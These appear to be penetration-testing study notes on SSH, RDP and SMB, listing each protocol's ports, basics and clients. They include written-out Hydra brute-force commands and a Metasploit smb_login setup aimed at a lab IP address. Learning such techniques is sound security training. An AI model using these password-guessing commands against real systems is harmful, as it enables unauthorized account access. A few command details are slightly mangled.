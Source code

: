 ### Secure Shell (SSH)

- **Purpose**: Securely connect to remote hosts for command execution or file transfer.
- **Port**: TCP 22 (default).
- **Cryptography**:
    1. **Symmetric Encryption**: Uses a single key (e.g., AES, Blowfish, 3DES) with Diffie-Hellman key exchange.
    2. **Asymmetric Encryption**: Public/private key pair; private key decrypts messages encrypted by the public key.
    3. **Hashing**: Ensures message authenticity (one-way mathematical function).
- **Brute Force Tool**: Hydra.
    - Command: `hydra -L user.list -P password.list ssh://10.129.42.197`
    - Notes: Limited parallel tasks recommended due to SSH configurations.
- **Client**: OpenSSH (default on Linux).
    - Command: `ssh user@10.129.42.197`

### Remote Desktop Protocol (RDP)

- **Purpose**: Remote access to Windows systems via GUI.
- **Port**: TCP 3389 (default).
- **Functionality**: Supports image/sound transfer, keyboard/mouse input, printing, and storage access.
- **Protocol**: Application layer; uses TCP/UDP.
- **Brute Force Tool**: Hydra.
    - Command: `hydra -L user.list -P password.list rdp://10.129.42.197`
    - Notes: Experimental module; reduce tasks (e.g., `t 4`) to avoid connection issues.
- **Client**: XFreeRDP (Linux).
    - Command: `xfreerdp /v:10.129.42.197 /u:user /p:password`
    - Certificate prompt requires confirmation.

### Server Message Block (SMB)

- **Purpose**: File sharing and resource access on Windows networks.
- **Port**: TCP 445 (default).
- **Brute Force Tools**:
    1. **Hydra**:
        - Command: `hydra -L user.list -P password.list smb://10.129.42.197`
        - Issue: Older versions may fail with SMBv3; update or use alternatives.
    2. **Metasploit Framework**:
        - Command: `msfconsole -q`
        - Setup:
            
            ```
            use auxiliary/scanner/smb/smb_login
            set user_file user.list
            set pass_file password.list
            set rhosts 10.129.42.197
            run
            
            ```
            
        - Output: Success indicated by valid credentials.
- **Client**: smbclient.
    - Command: `smbclient -U user \\\\\\\\10.129.42.197\\\\SHARENAME`
    - Functionality: List contents (`ls`), upload/download files based on privileges.
